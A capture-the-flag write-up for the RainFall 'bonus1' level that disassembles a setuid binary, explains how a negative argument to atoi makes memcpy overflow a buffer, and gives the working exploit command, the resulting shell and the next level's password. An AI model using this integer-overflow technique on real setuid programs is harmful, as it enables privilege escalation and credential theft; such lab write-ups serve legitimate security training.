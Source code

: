 # Bonus 1

- We login as user bonus1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ gdb bonus1
```

```
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave  
   0x080484a4 <+128>:   ret    
End of assembler dump.
```

- Let's highlight the most important parts of the program:
```
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
```
>Convert the first argument of the program to an integer using `<atoi@plt>`, then compare it with the value 9. If it is greater, return.

```
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
```
>Copy n bytes into `[esp+0x14]` from the second argument of the program, where n is the result of atoi multiplied by 4.

```
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
```
>`0x8048583: "/bin/sh"`

>Subsequently, if the value at `0x3c(%esp)` is equal to 0x574f4c46 ("WOLF"), open a shell.

- So, by providing a negative number as first argument, it allows us to write enough into memory to place 'WOLF' (backwards) at `0x3c(%esp)`:
```
bonus1@RainFall:~$ ./bonus1 -1073741800 abcdefghijklmnopqrstuvwxyzabcdefghijklmnFLOW

$ whoami
bonus2

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```